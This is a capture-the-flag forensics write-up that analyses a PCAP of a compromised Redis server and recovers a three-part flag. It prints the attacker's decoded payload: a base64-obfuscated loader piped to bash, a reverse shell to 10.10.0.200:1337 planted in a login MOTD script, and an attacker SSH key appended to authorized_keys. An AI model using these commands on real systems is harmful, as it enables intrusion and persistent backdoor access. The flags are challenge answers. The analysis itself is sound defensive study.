## Challenge Scenario

Our SOC team detected suspicious activity on one of our Redis instances. Despite being password-protected, it seems the attacker still managed to gain access. We need to put a remediation strategy in place as soon as possible — and to do that, we first need to gather more information about the attack vector.

> **Note:** The flag is composed of three parts.

## Materials on Hand

- PCAP file: `capture.pcap`

---

## Investigation

### Background Research

Upon opening the PCAP file, the first thing I did was check the **Protocol Hierarchy**.



The Protocol Hierarchy showed that there were sessions using the **RESP (Redis Serialization Protocol)**. So... what exactly is Redis, and what's special about its protocol?

According to the official [Redis documentation](https://redis.io/docs/latest/develop/reference/protocol-spec/):



In simple terms, RESP is a lightweight communication protocol used between Redis clients and servers. It's designed to be:

- Simple to implement
- Fast to parse
- Human-readable

This makes it an interesting candidate for building a lightweight C2 (Command and Control) framework — a communication channel between an attacker and a compromised machine.

---

### 2nd Flag

Using the display filter for RESP and following the TCP stream, I started digging through **Stream 0**. After some scrolling, I came across a Redis command that dumped a whole list of users and credentials — including emails, usernames, and passwords. Inside that data, I spotted what looked like the second part of the flag.





**2nd flag:** `_c0uld_0p3n_n3w`

---

### Analyzing the Injection Process

Moving on to **TCP Stream 1**, I noticed activity involving an attempt to retrieve an obfuscated binary called `VgLy8V0Zxo` using `wget`. Taking a closer look at the binary's content, something felt familiar — it matched the structure of Base64 encoding, but the padding character (`=`) was at the *start* of the data rather than the end like usual.



My suspicion was that the content might be reversed. I reversed it first, then ran it through a Base64 decoder — and sure enough, out came a decoded payload.



Looking at the decoded script, I could identify it as a **PowerShell script** with several variables whose contents were wrapped in another layer of Base64 encoding. After decoding and cleaning everything up, I had a clear picture of what the script was doing.

---

**First part:**
```powershell
lhJVXukWibAFfkv() {
    ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
    QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
    gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash 
}
```

After decoding:
```bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.0.200/1337 0>&1"' > /etc/update-motd.d/00-header
```

**Second part:**
```powershell
x7KG0bvubT6dID2() {
    LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
    gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
    bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
    q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
    GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
    HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
    fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
    hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
    FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
    CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
    PIx1p="cw=="
    echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}
```

After decoding:
```bash
echo -e "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC8Vkq9UTKMakAx2Zq+PnZNc6nYuEK3ZVXxH15bbUeB+elCb3JbVJyBfvAuZ0sonfAqZsyq9Jg6/KGtNsEmtVKXroPXhzFumTgg7Z1NvrUNvnqLIcfxTnP1+/4X284hp0bF2VbITb6oQKgzRdOs8GtOasKaK0k//2E5o0RKIEdrx0aL5HBOGPx0p8GrGe4kRKoAokGXwDVT22LlBylRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IfLMD/FQNy1B4DYhsY62O7o2xR0vxkBEp5UhBAX8gOTG0wjzrUHxmdUimXgiy39YVZaTJQwLBtzJS//YhkewyF/+CP0H7wIKIErlf5WFK5skLYO6uKVpx6akGXY8GADnPU3iPK/MtBC+RqWssdkGqFIA5xG2Fn+Klid9Obm1uXexJfYVjJMOfvuqtb6KcgLmi5uRkA6+x6jZtd2gYhCMgSZ0iM9RyY7k7K13tHXzEk7OciUmd5/Z7Yuolnt3ByX9a+IlSxaiOAD2iNJboNuUIxMH/9HNYKd6mlwUpovqFcGBqXizcF21bxNGoOE31Vfox2fq2qW30BDWtHrrYi76iLh02FerHEYHdQAAA08NfUHyCw0fVl/qt6bAgKSb02k691lcDAo5JpEEzNQpub0X8xJItrbw==HTB{r3d15_1n574nc35" >> ~/.ssh/authorized_keys
```

**1st flag:** `HTB{r3d15_1n574nc35`

---

**Script breakdown — what's it actually doing?**

The script establishes both **persistence** and **backdoor access** on the compromised system through two mechanisms:

**1. Reverse Shell Persistence**

It writes a reverse shell command into `/etc/update-motd.d/00-header`. This file executes automatically whenever a user logs in, triggering an outbound connection back to `10.10.0.200` on port `1337`.

**2. SSH Backdoor**

It appends an attacker-controlled public key into `~/.ssh/authorized_keys`, granting passwordless SSH access to the system at any time.

Pretty nasty combination — even if the reverse shell gets caught, the SSH backdoor keeps the door open.

---

### 3rd Flag

Moving on, **TCP Stream 2** showed something a bit different:



At first glance it still looked like regular Redis traffic, but for some commands the responses appeared to be **encrypted**. It seemed like the attacker was trying to hide something in plain sight.

I continued checking the remaining TCP streams. At **Stream 6**, I noticed that an executable payload had been injected into the system.



To extract the binary, I had to:
1. Set the stream view to **raw bytes**
2. Export the stream to my local machine
3. Use `binwalk` to carve out the actual binary from the surrounding packet headers



---

### Malware Analysis

Before jumping into any reverse engineering, I uploaded the binary to **DIE (Detect It Easy)** to figure out what I was dealing with.



It turned out to be an **ELF binary written in C** — so I opened it up in **IDA**.

Locating the `DoCommand` function:



Inside, I found a function responsible for encrypting messages using **AES-256 CBC** with a hardcoded key and IV. Armed with those values, I headed over to **CyberChef** and ran the decryption — and the hidden message came right out.





The third flag was hiding inside one of the encrypted message.

**3rd flag:** `_un3xp3c73d_7r41l5!}`

---

## Final Flag
```
HTB{r3d15_1n574nc35_c0uld_0p3n_n3w_un3xp3c73d_7r41l5!}
```